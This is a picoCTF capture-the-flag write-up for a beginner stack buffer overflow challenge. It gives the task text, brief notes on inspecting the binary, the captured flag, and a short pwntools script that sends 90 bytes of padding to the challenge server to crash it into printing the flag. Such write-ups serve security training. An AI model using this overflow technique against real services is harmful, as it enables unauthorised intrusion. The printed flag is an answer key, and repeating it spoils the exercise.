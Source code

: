 # Contents
- Task Description
- Notes
- Solve Script


## Task Description
Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using:
`nc saturn.picoctf.net 51110`

## Notes
wget the file and run file and rabin2 to the file.
It is a 32bit ELF.

Running the file to see what it does.
It lets you input a string then exits.
Lets run it once and see what happens if you overflow the input field.
It gives the flag. Nice
```flag
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

## Solve Script
```python
from pwn import *
r = remote('saturn.picoctf.net',51110)
r.recvuntil(b'Input: ')
r.sendline(b'A'*90)
x = r.recv().decode('utf-8')
print(str(x).strip())
r.close()
```


---
Creation date: 09-10-2022

Last modified date: Sunday 9th October 2022
***
